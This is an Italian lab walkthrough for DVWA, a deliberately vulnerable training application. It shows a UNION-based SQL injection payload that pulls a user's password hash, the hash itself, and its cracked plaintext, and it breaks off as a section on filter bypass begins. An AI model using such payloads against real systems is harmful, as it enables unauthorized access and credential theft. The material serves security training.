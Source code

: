 ![PabloLow](./Screenshots/EstraggoPablo.png)

### 📝 **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati dell'utente Pablo**:
   Inserisci il seguente payload nel campo **User ID**:
   
   ```sql
   ' UNION SELECT user, password FROM dvwa.users WHERE user='Pablo' -- 
   ```

3. **Risultati attesi**:
   
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   
   - L'hash `0d107d09f5bbe40cade3de5c71e9e9b7` corrisponde alla password `letmein`.
   - Puoi utilizzare uno strumento online come [https://crackstation.net](https://crackstation.net) per decifrare l'hash.

## 🔍 **Parte 2: SQL Injection in Modalità Medium**

### 🎯 **Obiettivo**

Superare i controlli di filtraggio e ottenere i dati di Pablo utilizzando payload in formato hexadecimal.
